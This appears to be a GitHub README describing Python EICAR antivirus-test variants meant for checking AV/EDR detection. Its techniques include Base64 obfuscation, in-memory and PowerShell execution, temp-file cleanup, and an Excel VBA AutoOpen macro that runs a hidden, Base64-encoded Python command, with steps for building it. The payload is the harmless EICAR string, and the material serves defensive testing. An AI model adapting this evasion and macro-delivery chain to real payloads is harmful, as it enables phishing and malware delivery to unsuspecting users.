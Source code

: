 # EICAR_python
Ptyhon files used in EICAR testing

Breakdown of the EICAR Test Variants

0. Flat_Out_EICARS
```python
X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```
- What it does: EICAR test string with python extension.
- Purpose: Static AV signature test.
- Detection chance: 100% if AV is active.

---

🧱 1. Basic Python Dropper
``` python
EICAR_STRING = "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
with open("eicar_basic_dropper.txt", "w") as f:
    f.write(EICAR_STRING)
```

- What it does: Writes the known EICAR test string to disk (eicar_basic.dropper.txt).
- Purpose: Static AV signature test.
- Detection chance: 100% if AV is active.

---

2. In-Memory_EICAR.py
``` python
#!/usr/bin/env python3

# In-memory EICAR simulation (no shell, no disk)
# Prints the EICAR test string to stdout, without writing to disk.

from io import BytesIO

# EICAR string
eicar = b"X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

# Write to an in-memory buffer
mem_buffer = BytesIO()
mem_buffer.write(eicar)

# Seek to beginning if needed
mem_buffer.seek(0)

# Read it back
data = mem_buffer.read()
print("In-memory EICAR data loaded:", data.decode())

```
- Does not write to disk
- Does not call subprocesses
- Only manipulates EICAR entirely in memory
- Final result is printed to stdout

🔐 *Security Summary*
|Risk Category | Status |
|--------------|--------|
|Malicious behavior |	❌ None (no system changes, no persistence, no network) |
|Malicious payload |	✅ EICAR (benign but signature known) |
|Evasion technique |	✅ Yes (runs purely in-memory) |
|Detection likelihood |	⚠️ Low (unless monitored memory or stdout logging) |

✅ *TL;DR – Will It Be Detected?*
|-------------------------------------------------------- |
| ❌	Most antivirus solutions will not detect this script. |
| ⚠️	Enterprise EDRs might detect it if they scan memory or correlate stdout logs. |
| ✅	Writing the EICAR string to a file or subprocess is almost guaranteed to trigger AV. |

---

🧅 3. Obfuscated Dropper
``` python
encoded = "Base64_EICAR_String"
decoded = base64.b64decode(encoded).decode('ascii')
with open("eicar_obf.txt", "w") as f:
    f.write(decoded)
```
- What it does: Hides the EICAR string in Base64, decodes it at runtime.
- Purpose: Simulates basic payload encoding like malware often uses.
- Detection chance: Lower unless AV/EDR inspects script behavior.

---

🧠 4. In-Memory Execution
Subprocess with echo
``` python
cmd = f'echo {eicar}'
subprocess.run(["echo", eicar])
```
- What it does: Uses system shell to echo the EICAR string.
- Purpose: Mimics droppers that execute payloads in memory or with LOLBins (Living Off the Land Binaries).
- Detection chance: Medium to high, depending on AV script monitoring.

 ---

5. Tempfile_EICAR with auto-deletion 
``` python
with tempfile.NamedTemporaryFile(...) as tmp:
    tmp.write(eicar.encode())
os.remove(tmp.name)
```
- What it does: Creates a temp file, writes the string, deletes it quickly.
- Purpose: Simulates malware that cleans up after itself.
- Detection chance: Depends on AV reaction time.

---

6. PowerShell_Injection_EICARS
``` python
powershell_cmd = '$e="..."; [System.Text.Encoding]::ASCII.GetBytes($e) | Out-Null'
subprocess.run(["powershell", "-Command", powershell_cmd])
```
- What it does: Runs PowerShell to generate EICAR in memory.
- Purpose: Simulates real-world fileless malware or script-based attacks.
- Detection chance: Very high for good EDRs.

---

🪤 7. Excel VBA Macro → Python Dropper
- This simulates phishing or initial access where:
- A malicious Excel document has a macro (VBA script).
- The macro launches Python to execute a payload (e.g., an EICAR dropper).
``` vba
Sub AutoOpen()
    Dim pyCommand As String
    pyCommand = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('aW1wb3J0IHdpcnRlOyB3aXJ0ZSgiWDVPKVB...==' ))"""
    
    Shell pyCommand, vbHide
End Sub
```
- What it does:
    - AutoOpen runs when the document is opened.
    - It constructs a command to run python -c <payload>.
    - The Python payload is Base64-encoded for obfuscation.
- What the Python does: Writes or generates the EICAR string.

---

📦 8. Embedded Python Payload
Here’s what the payload might do before it’s base64-encoded:
``` python
import base64

eicar = base64.b64decode("WDVPKVB...").decode()
with open("eicar.com", "w") as f:
    f.write(eicar)
```
Then you Base64-encode this whole Python snippet and embed it into the VBA macro.
You can encode it like this from your terminal:
``` bash
echo "import base64; eicar=base64.b64decode('...'); open('eicar.com','w').write(eicar)" | base64
```
Use the output in the VBA code.

---

🧠 Why This Is Useful (and Dangerous)
Feature	                        Use Case
Mimics real malware delivery	Macros calling external scripts is a classic attack chain.
Bypasses static detection	    If AV only scans static VBA, this may get missed.
Tests macro policies	        Useful for seeing if macro-blocking policies (e.g., in MS Defender) work.
Simulates phishing vectors	    This mimics malware in malicious attachments.

🛑 Precautions
- ⚠️ Never test this outside of isolated, controlled lab environments.
- ⚠️ Excel must have macros enabled — modern Office versions block unsigned macros by default.
- ✅ Use AppLocker, WDAC, and macro policies in enterprise environments to block this vector.



